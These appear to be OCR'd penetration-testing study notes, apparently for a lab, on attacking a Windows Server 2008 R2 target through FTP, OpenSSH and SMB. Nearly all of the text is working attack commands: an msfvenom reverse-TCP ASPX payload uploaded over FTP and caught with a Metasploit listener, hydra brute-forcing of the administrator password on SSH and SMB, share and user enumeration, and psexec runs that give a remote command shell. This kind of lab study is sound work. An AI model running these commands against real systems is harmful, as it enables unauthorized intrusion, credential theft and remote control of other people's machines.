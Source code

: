    > After we login , let’s identify what a file extinction can be uploaded , after identify that we need to generate a msfvenom payload to receive a revers shell ( _let’s assume that we found a asp file_ )
    
    - `msfvenom -p windows/shell/reverse_tcp LHOST=<our ip > LPORT=1234 -f asp > shell.aspx` ⇒ here we make a payload to get reverse shell when we upload
    - `Back to ftp login` && `put shell.aspx` ⇒ to upload it to the server
    - On msfconsole ⇒ `use multi/handler` && `set payload windows/shell/reverse_tcp` && `set lhost <our ip>` && `set lport 1234` && `run` ⇒ here we set up a multi/handler listener , and just we need to `navigate the shell.aspx on browser`
    - we can modify the any file ⇒ `get <file we want to modify >` && we can see it on our machine , `gedit <file >` && modify it by any thing u want && on FTP session ⇒ `put <file >`
    
      
    

  

- Targeting OpenSSH
    
    - ==On Port 22 Open ,The service running is ⇒ OpenSSH 7.1==
    - _==On Services like FTP , SSH ,SMB ⇒ on same target system if you found a username like administrator , so all services SSH FTP SMB , the username to login on it will be administrator , so what actual u need to bruteforce is the password just==_
    - With searchsploit the 2 exploit for OPENSSH 7.1 is just username enumeration , on our case we don’t need it
    - `hydra -l administrator -P /usr/share/wordlist/metasploit/unix_password.txt <target ip> ssh` ⇒ to brute force the login of ssh
    - `ssh administrator@<target ip>` && `enter the password`
    - `msfconsole` && `use auxiliary/scanner/ssh/ssh_login` && `set rhost <target ip>` && `set username administrator` && `set password <the password from bruteforce>` && `run` && `session -u 1` ⇒ to get a metepreter session instead of bind shell
    
      
    

  

- Targeting SMB
    
    > ==On Port 445 , The service running is ⇒ Microsoft server 2008 R2==
    
    > ==As from the previous services on same target , we found a administrator account , so we have the username==
    
    - `hydra -l administrator -P /usr/share/wordlist/metasploit/unix_password.txt <target ip> smb` ⇒ to brute force the login of SMB
    - `smbclient -L <target ip> -U administrator` && `enter password` ⇒ to obtain the shares on smb
    - `smbmap -u administrator -p <password> -H <target ip>` ⇒ to obtain the shares on smb
    - `enum4linux -u administrator -p <password> -U <target ip>` ⇒ to list all account on system
    - `msfconsole` && `use auxiliary/scanner/smb/smb_enumusers` && `set rhost <target ip>` && `set username administrator` && `set password <the password from bruteforce>` && `run` ⇒ it’s like enum4linux
    - `locate` `[psexec.py](http://psexec.py)` && `cd Desktop` && `cp /usr/share/doc/python3-impacket/examples/psexec.py` && `chmod +x psexec.py` && `python3 psexec.py Administartor@<target ip>` && `enter password` ⇒ we will get a command prompt on target
    - `msfconsole` && `use exploit/windows/smb/psexec` && `set rhost <target ip>` && `set smbuser administrator` && `set smbpass <the password from bruteforce>` && `run` ⇒ it’s psexec but on msfconsole ( if target 64 change the payload )
    